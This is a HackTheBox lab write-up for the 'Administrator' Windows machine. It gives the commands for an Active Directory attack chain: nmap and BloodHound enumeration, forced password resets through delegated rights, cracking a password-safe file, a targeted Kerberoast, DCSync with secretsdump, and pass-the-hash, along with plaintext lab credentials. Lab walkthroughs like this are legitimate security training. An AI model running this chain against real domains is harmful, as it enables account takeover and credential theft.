 ```yaml
---
title: "Administrator - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - medium
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Administrator
![](https://kar0nx.github.io/assets/images/writeup/9d232b1558b7543c7cb85f2774687363.png)
## Reconnaissance

IP: 10.10.11.42
Username: Olivia Password: ichliebedich
## NMAP

```
nmap -T4 -p- -A 10.10.11.42
```

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-27 03:24 EDT
Nmap scan report for 10.10.11.42
Host is up (0.030s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-27 14:25:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
59737/tcp open  msrpc         Microsoft Windows RPC
62724/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62729/tcp open  msrpc         Microsoft Windows RPC
62736/tcp open  msrpc         Microsoft Windows RPC
62741/tcp open  msrpc         Microsoft Windows RPC
62754/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=8/27%OT=21%CT=1%CU=40667%PV=Y%DS=2%DC=T%G=Y%TM=68AEB31
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=105%TI=I%CI=I%II=I%SS=S%TS=
OS:A)SEQ(SP=105%GCD=2%ISR=10C%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=106%GCD=1%ISR
OS:=10B%TI=I%CI=I%II=I%SS=S%TS=A)SEQ(SP=F2%GCD=1%ISR=100%TI=I%CI=I%II=I%SS=
OS:S%TS=A)SEQ(SP=FD%GCD=1%ISR=106%TI=I%CI=I%II=I%SS=S%TS=A)OPS(O1=M552NW8ST
OS:11%O2=M552NW8ST11%O3=M552NW8NNT11%O4=M552NW8ST11%O5=M552NW8ST11%O6=M552S
OS:T11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF=Y%T=8
OS:0%W=FFFF%O=M552NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(
OS:R=N)T3(R=N)T4(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%
OS:W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=
OS:)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
OS:IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-27T14:26:07
|_  start_date: N/A
|_clock-skew: 6h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   30.18 ms 10.10.14.1
2   30.64 ms 10.10.11.42

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.83 seconds
```

AD set, so starting with NXC

## SMB

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827092547.png)

I collected users and save in users.txt

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827092822.png)

nothing special after connecting with winrm so lets enumerate via bloodhound

```
bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns 10.10.11.42 -c all --zip
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827095052.png)

## Gaining Access

In bloodhound I found that olivia have GenericAll rights over michael

```
net rpc password "michael" "Password1" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.10.11.42"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827095413.png)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827095833.png)

Next I found that michael have ForceChangePassword rights over benjamin

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827095904.png)

same as before
```
net rpc password "benjamin" "Password1" -U "administrator.htb"/"michael"%"Password1" -S "10.10.11.42"
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827100043.png)

Benjamin is Share Moderator, starting with enumerating smb, but there is nothing to look for, next enumerating ftp i found interesting backup file

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827100228.png)

which I was able to crack via pwsafa2john

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827100706.png)

searching google for program to open psafe3, I found https://github.com/pwsafe/pwsafe/blob/1.21.0/README.LINUX.md

```
sudo apt install passwordsafe
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827101717.png)

selecting file and entering master password gave us access to saved credentials

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827101852.png)

```
alexander UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

only emily creds was correct 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827103811.png)

## Privilege Escalation

Enumerating bloodhound I spot that emily have GenericWrite to ethan


![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827104003.png)

So Targeted Kerberoast attack with targetedKerberoast.py

```
ntpdate 10.10.11.42

python3 targetedKerberoast.py -v -d administrator.htb -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb --dc-ip 10.10.11.42
```

simply copy and paste from bloodhound (remember to sync time with DC)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827114956.png)

Cracking obtained ethan hash with hashcat

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827115117.png)

And we have next user and password

```
ethan limpbizkit
```

Checking ethan in bloodhound I spot that He have GetChanges to Administrator

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827115326.png)

So now we can dump SAM database form dc

```
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827115350.png)

For the last step we use pass the hash with administrator account 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250827115442.png)

